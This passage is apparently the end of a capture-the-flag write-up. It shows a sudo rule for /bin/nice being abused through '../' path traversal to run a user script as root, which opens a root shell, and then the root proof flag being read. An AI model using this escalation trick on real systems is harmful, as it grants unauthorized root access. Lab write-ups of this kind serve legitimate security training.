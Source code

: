 Now let’s try to spawn the root shell

````Shell

webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/test.sh

TEST

root

root@serv:/home/webadmin#

````

WE GOT ROOT.

lets grab that flag

````Shell

root@serv:/# cat root/proof.txt

32a797bb3c245310f1b20cb57dd167f4

root@serv:/#

````

### Root Flag

32a797bb3c245310f1b20cb57dd167f4